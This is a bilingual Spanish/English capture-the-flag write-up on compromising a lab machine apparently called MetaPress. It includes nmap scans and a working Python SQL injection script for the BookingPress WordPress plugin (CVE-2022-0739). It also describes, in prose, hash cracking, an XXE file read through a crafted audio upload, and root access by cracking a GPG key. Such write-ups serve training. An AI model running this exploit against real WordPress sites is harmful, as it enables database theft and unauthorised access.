:::::{.spanish}
- [Reconocimiento](#reconocimiento)<br>
- [Obteniendo acceso a la máquina víctima](#obteniendo-acceso-a-la-máquina-víctima)<br>
	- [Plugin WP (CVE-2022-0739)](#plugin-wp-cve-2022-0739)<br>
	- [John the Ripper](#john-the-ripper)<br>
	- [XXE](#xxe)<br>
	- [Buscando ficheros con FTP](#buscando-ficheros-con-ftp)<br>
- [Escalada de Privilegios](#escalada-de-privilegios)<br>
	- [Passpie y GPG ](#passpie-y-gpg-)<br>
:::::

:::::{.english}
- [Recognition](#recognition)<br>
- [Gaining access to the victim machine](#gaining-access-to-the-victim-machine)<br>
	- [Plugin WP (CVE-2022-0739)](#plugin-wp-cve-2022-0739)<br>
	- [John the Ripper](#john-the-ripper)<br>
	- [XXE](#xxe)<br>
	- [Searching for files with FTP](#searching-for-files-with-ftp)<br>
- [Privilege Escalation](#privilege-escalation)<br>
	- [Passpie y GPG ](#passpie-y-gpg-)<br>
:::::


:::::{.spanish}

# Reconocimiento

Empezamos viendo si la máquina víctima está disponible:

```bash
 ping -c 1 10.10.11.186
```

<br>

```
#PING 10.10.11.186 (10.10.11.186) 56(84) bytes of data.
#64 bytes from 10.10.11.186: icmp_seq=1 ttl=63 time=45.8 ms
#
#--- 10.10.11.186 ping statistics ---
#1 packets transmitted, 1 received, 0% packet loss, time 0ms
#rtt min/avg/max/mdev = 45.795/45.795/45.795/0.000 ms
```

Recordemos mirar el TTL para ver ante que máquina nos encontramos ( en este caso GNU/Linux).

Escaneamos los puertos para ver cuáles están abiertos:

```bash
 nmap -p- --open -T5 -n -Pn 10.10.11.186 -oG openTCPports
```

<br>

```
#Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-20 17:40 CET
#Nmap scan report for 10.10.11.186
#Host is up (0.050s latency).
#Not shown: 65492 closed tcp ports (reset), 40 filtered tcp ports (no-response)
#Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
#PORT   STATE SERVICE
#21/tcp open  ftp
#22/tcp open  ssh
#80/tcp open  http
#
#Nmap done: 1 IP address (1 host up) scanned in 16.35 seconds
```

Vemos que ftp está desplegado, pero no podemos acceder a él mediante el usuario 'anónimo'. Seguimos con el reconocimiento, es decir, lanzar con nmap una serie de scripts predefinidos para ver la versión de los distintos servicios:

```bash
 nmap -p21,22,80 10.10.11.186 -oN serviceTCPports
```

<br>

```
## Nmap 7.93 scan initiated Mon Feb 20 17:41:25 2023 as: nmap -p21,22,80 -sVC -oN nmap2.out 10.10.11.186
#Nmap scan report for 10.10.11.186
#Host is up (0.051s latency).
#
#PORT   STATE SERVICE VERSION
#21/tcp open  ftp?
#| fingerprint-strings: 
#|   GenericLines: 
#|     220 ProFTPD Server (Debian) [::ffff:10.10.11.186]
#|     Invalid command: try being more creative
#|_    Invalid command: try being more creative
#22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
#| ssh-hostkey: 
#|   3072 c4b44617d2102d8fec1dc927fecd79ee (RSA)
#|   256 2aea2fcb23e8c529409cab866dcd4411 (ECDSA)
#|_  256 fd78c0b0e22016fa050debd83f12a4ab (ED25519)
#80/tcp open  http    nginx 1.18.0
#|_http-title: Did not follow redirect to http://metapress.htb/
#|_http-server-header: nginx/1.18.0
#
#Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
## Nmap done at Mon Feb 20 17:44:55 2023 -- 1 IP address (1 host up) scanned in 209.89 seconds

```

Añadimos el dominio a nuestro fichero "/etc/hosts" y vemos la página web.

# Obteniendo acceso a la máquina víctima

## Plugin WP (CVE-2022-0739)

Lo primero que llama la atención es:



Por tanto hay que buscar a ver si hay algún plugin instalado y ver si es vulnerable; echando un vistazo al fuente de la página:



Haciendo una búsqueda rápida, encontramos en wpscan:




Lo que hay que hacer es crear una nueva entrada en el calendario y obtener un nonce de la petición POST al servidor:



Una vez obtenido, en mi caso, he automatizado la SQLi con el siguiente script:

```python
# booking-plugin-exploit.py CVE-2022-0739
# author : Alejandro García Peláez

import requests,sys

wp_nonce="99954e9c63"
URL = "http://metapress.htb/wp-admin/admin-ajax.php"


if __name__ == "__main__":
  data = {
	'action': 'bookingpress_front_get_category_services',
	'_wpnonce':wp_nonce,
	'category_id': 33,
	'total_service':'-7502) %s' % sys.argv[1]
  }
  resp = requests.post(URL,data=data)
  print(resp.text)
```

Esto permite obtener la salida del SQLi por consola y fácilmente poder filtrar por expresiones regulares. La 'query' la introducimos como primer argumento a la hora de ejecutar el script.

Ejecutando:



## John the Ripper

Vemos que la vulnerabilidad es explotada correctamente y ya podemos empezar a recopilar información, primero las tablas que nos interesan, después las columnas de esas tablas y posteriormente usuarios y contraseñas (hash):







Guardamos las contraseñas en un fichero y ejecutamos 'john' para obtener la contraseña:



Con esto accedemos a WP como manager.

## XXE

Una vez dentro podemos subir archivos ... aunque solo deja subir archivos de sonido/imagen. Podemos ver la versión exacta del wordpress y a partir de ello encontrar una serie de vulnerabilidades. Tras ver si alguna de ellas era útil encontré algo que no conocía hasta ahora, llamado XXE; esta vulnerabilidad nos permite obtener el contenido de ficheros mediante la inyección de XML. Principalmente intento listar el contenido de '/etc/passwd' para ver si funciona. Tenemos que crear un fichero con los primeros bytes que tendría un fichero de audio y posteriormente el XML pertinente. Una vez hecho esto apuntamos hacia un servicio web de nuestra máquina que contendrá el código restante para filtrar archivos. Una vez hecho esto, obtenemos (codificado) el contenido del fichero en cuestión:



Decodificando:



Vemos un usuario potencial. Intentamos listar ficheros de configuración, en este caso veamos el del WP:



Dos credenciales; una de ellas para BBDD y otra para el ftp del inicio.

## Buscando ficheros con FTP

Tras buscar un largo rato, encontré el siguiente fichero, que parece que gestiona el envío de email una vez que se crear un nuevo evento; en él obtenemos las credenciales del usuario anterior y accedemos al equipo víctima





# Escalada de Privilegios

## Passpie y GPG 

Listando por ficheros que pertenecen al usuario, podemos encontrar un software llamado 'passpie', gestor de contraseñas. Hay algunos ficheros que nos interesan más que otros; si ejecutamos 'passpie' vemos que hay dos credenciales la de nuestro usuario y la de root; si intentamos exportarlas no nos dejará dado que tenemos que tener la "passphrase". Para ellos nos descargamos el archivo '.keys' que contiene las claves privadas y públicas pgp; con gpg2john pasamos la clave privada a un formato entendible para 'The Ripper' a ver si tenemos suerte y podemos obtener la clave que nos falta; tras unos segundos la obtenemos y podemos acceder a una consola con permisos de administrador:







:::::

:::::{.english}

# Recognition

We start by checking if the victim machine is available:

```bash
 ping -c 1 10.10.11.186
```

<br>

```
#PING 10.10.11.186 (10.10.11.186) 56(84) bytes of data.
#64 bytes from 10.10.11.186: icmp_seq=1 ttl=63 time=45.8 ms
#
#--- 10.10.11.186 ping statistics ---
#1 packets transmitted, 1 received, 0% packet loss, time 0ms
#rtt min/avg/max/mdev = 45.795/45.795/45.795/0.000 ms
```

Remember to look at the TTL to see which machine we are on (in this case GNU/Linux).

Scan the ports to see which ones are open:

```bash
 nmap -p- --open -T5 -n -Pn 10.10.11.186 -oG openTCPports
```

<br>

```
#Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-20 17:40 CET
#Nmap scan report for 10.10.11.186
#Host is up (0.050s latency).
#Not shown: 65492 closed tcp ports (reset), 40 filtered tcp ports (no-response)
#Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
#PORT   STATE SERVICE
#21/tcp open  ftp
#22/tcp open  ssh
#80/tcp open  http
#
#Nmap done: 1 IP address (1 host up) scanned in 16.35 seconds
```

We see that ftp is deployed, but we cannot access it through the 'anonymous' user. We continue with the reconnaissance, that is to say, to launch with nmap a series of predefined scripts to see the version of the different services:

```bash
 nmap -p21,22,80 10.10.11.186 -oN serviceTCPports
```

<br>

```
## Nmap 7.93 scan initiated Mon Feb 20 17:41:25 2023 as: nmap -p21,22,80 -sVC -oN nmap2.out 10.10.11.186
#Nmap scan report for 10.10.11.186
#Host is up (0.051s latency).
#
#PORT   STATE SERVICE VERSION
#21/tcp open  ftp?
#| fingerprint-strings: 
#|   GenericLines: 
#|     220 ProFTPD Server (Debian) [::ffff:10.10.11.186]
#|     Invalid command: try being more creative
#|_    Invalid command: try being more creative
#22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
#| ssh-hostkey: 
#|   3072 c4b44617d2102d8fec1dc927fecd79ee (RSA)
#|   256 2aea2fcb23e8c529409cab866dcd4411 (ECDSA)
#|_  256 fd78c0b0e22016fa050debd83f12a4ab (ED25519)
#80/tcp open  http    nginx 1.18.0
#|_http-title: Did not follow redirect to http://metapress.htb/
#|_http-server-header: nginx/1.18.0
#
#Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
## Nmap done at Mon Feb 20 17:44:55 2023 -- 1 IP address (1 host up) scanned in 209.89 seconds

```

We add the domain to our "/etc/hosts" file and we see the web page.

# Gaining access to the victim machine

## Plugin WP (CVE-2022-0739)

The first thing that catches the eye is:


So you have to look to see if there is a plugin installed and see if it is vulnerable by looking at the source of the page:


Doing a quick search, we found on wpscan:


What you need to do is to create a new entry in the calendar and get a nonce from the POST request to the server:


Once obtained, in my case, I have automated the SQLi with the following script:

```python
# booking-plugin-exploit.py CVE-2022-0739
# author : Alejandro García Peláez

import requests,sys

wp_nonce="99954e9c63"
URL = "http://metapress.htb/wp-admin/admin-ajax.php"


if __name__ == "__main__":
  data = {
	'action': 'bookingpress_front_get_category_services',
	'_wpnonce':wp_nonce,
	'category_id': 33,
	'total_service':'-7502) %s' % sys.argv[1]
  }
  resp = requests.post(URL,data=data)
  print(resp.text)
```

This allows us to get the SQLi output by console and easily filter by regular expressions. The 'query' is entered as the first argument when executing the script.

Executing:


## John the Ripper

We see that the vulnerability is successfully exploited and we can start collecting information, first the tables we are interested in, then the columns of those tables and then users and passwords (hash):


We save the passwords in a file and run 'john' to get the password:


With this we access WP as manager.

## XXE

Once inside we can upload files ... although it only allows to upload sound/image files. We can see the exact version of wordpress and from this we can find a series of vulnerabilities. After seeing if any of them were useful I found something I didn't know about until now, called XXE; this vulnerability allows us to get the content of files by XML injection. Mainly I try to list the content of '/etc/passwd' to see if it works. We have to create a file with the first bytes that an audio file would have and then the relevant XML. Once this is done we point to a web service on our machine that will contain the remaining code to filter files. Once this is done, we get (encoded) the content of the file in question:


Decoding:


We see a potential user.We try to list configuration files, in this case let's see the WP one:


Two credentials; one of them for BBDD and another one for the ftp of the startup.

## Searching for files with FTP

After searching for a long time, I found the following file, which seems to manage the sending of email once a new event is created; in it we obtain the credentials of the previous user and access the victim computer.


# Privilege Escalation

## Passpie y GPG 

Listing by files that belong to the user, we can find a software called 'passpie', password manager. There are some files that interest us more than others; if we run 'passpie' we see that there are two credentials, our user's and root; if we try to export them it will not let us since we have to have the "passphrase". For them we download the '.keys' file that contains the private and public pgp keys; with gpg2john we pass the private key to a format understandable for 'The Ripper' to see if we are lucky and we can obtain the key that we lack; after a few seconds we obtain it and we can access to a console with administrator permissions:


:::::